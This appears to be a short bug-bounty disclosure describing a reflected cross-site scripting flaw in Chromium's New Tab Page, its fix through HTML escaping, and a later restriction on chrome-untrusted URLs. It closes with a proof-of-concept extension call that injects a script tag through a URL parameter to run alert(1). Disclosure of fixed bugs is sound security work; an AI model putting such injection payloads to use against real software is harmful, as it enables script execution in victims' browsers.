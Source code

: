 ```yaml
---
title: XSS in native browser UI (Awarded $500)
---
```


Chromium NTP (New Tab Page) reflected content from a url parameter into the DOM, This was fixed by replacing `i18nRaw` with `i18n` that performs html escaping.
Impact is reduced because it's on chrome-untrusted and can only be navigated to directly or from a browser extension. <https://issues.chromium.org/issues/40057777>

UPDATE: As part of <https://bugs.chromium.org/p/chromium/issues/detail?id=1269151> chrome-untrusted URLs in chrome.window and chrome.tabs are now disallowed.

```js
chrome.tabs.update(
  ID,
  {
    url: "chrome-untrusted://new-tab-page/custom_background_image?url=https://a.a&size=%3C/style%3E%3Cscript%3Ealert(1)%3C/script%3E",
  },
  console.log,
);
```
